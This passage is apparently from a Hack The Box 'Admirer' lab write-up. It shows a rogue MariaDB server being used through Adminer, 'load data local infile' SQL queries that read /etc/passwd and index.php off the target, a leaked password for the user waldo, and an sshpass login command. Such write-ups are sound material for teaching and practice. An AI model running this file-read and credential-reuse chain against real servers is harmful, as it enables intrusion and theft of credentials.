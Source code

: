 	# Changed from 127.0.0.1 -> 0.0.0.0 
	nano /etc/mysql/mariadb.conf.d/50-server.cnf
	```
	![]({{ page.img_path }}Pasted%20image%2020220218203016.png)
7. Proceed to `adminer.php` & login w/ `yf:password`
	![]({{ page.img_path }}Pasted%20image%2020220928042939.png)


## TCP/80 (HTTP) - Adminer data exfiltration
1. Create a table `exploit`
	![]({{ page.img_path }}Pasted%20image%2020220928043700.png)
2. Proceed to `SQL Command`, populate the exploit table w/ data we want to exfiltrate
	- `/etc/passwd`
		```sql
		# MySQL Query
		load data local infile '/etc/passwd' into table mysql.exploit fields terminated by "\n"
		```
		![]({{ page.img_path }}Pasted%20image%2020220928043900.png)
		> - The **open_basedir** is a server configuration, a security measure to disallow file access.
		> -  `/etc/passwd` is not in the configured path
		{: .prompt-info}
	- `/var/www/html/index.php`
		```sql
		# MySQL Query
		load data local infile '/var/www/html/index.php' into table mysql.exploit fields terminated by "\n"
		```
		![]({{ page.img_path }}Pasted%20image%2020220928044136.png)
		>- It worked!
		>- This file is chosen because earlier, we saw that it contains credentials
		{: .prompt-info}
3. View exfiltrated file `index.php`
	![]({{ page.img_path }}Pasted%20image%2020220928044616.png)
	- `waldo:&<h5b~yK3F#{PaPB&dA}{H>`


## TCP/22 (SSH)
1. Successfully SSH w/ `waldo:&<h5b~yK3F#{PaPB&dA}{H>`
	```
	┌──(root💀kali)-[~/htb/admirer/10.10.10.187/loot/10.10.10.187/html]
	└─# sshpass -p '&<h5b~yK3F#{PaPB&dA}{H>' ssh waldo@admirer.htb
	```
	![]({{ page.img_path }}Pasted%20image%2020220928045207.png)
